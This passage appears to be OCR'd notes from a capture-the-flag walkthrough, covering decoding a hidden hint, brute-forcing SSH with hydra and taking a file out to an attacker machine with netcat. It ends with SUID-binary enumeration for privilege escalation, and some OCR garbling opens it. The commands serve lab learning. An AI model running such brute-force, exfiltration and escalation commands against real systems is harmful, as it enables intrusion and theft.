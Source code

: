 z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo

tried to crack it using john
but cannto crack it.
8. At this point got stucked. Took a help for this decryption only. It seems to be base32
, then convert it to hex, then rot17
 echo "GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=" | base32 -d | xxd -r -p | tr 'A-Za-z' 'N-ZA-Mn-za-m'

Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S

9. Now tried to brute-force jack ssh using passwords found in his /home directory using hydra 
hydra -l  jack -P jack_passwords.txt 10.10.83.82 -s 80 -t 4 ssh

got the password!!!!
ITMJpGGIqg1jn?>@

10. now ssh as jack
ssh jack@target -p 80 
logged in as jack

11. in home directory of jack found user.jpg
to transfer user.jpg to attacker machine:

reciving end:
nc -l -p 4444 > user.jpg

Sending file:
nc -w 3 10.18.1.224 4444 < user.jpg

Download it using nc and get the user flag.
12.
Now going to escalate:

								(i) find / -perm -u=s -type f 2>/dev/null
								
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
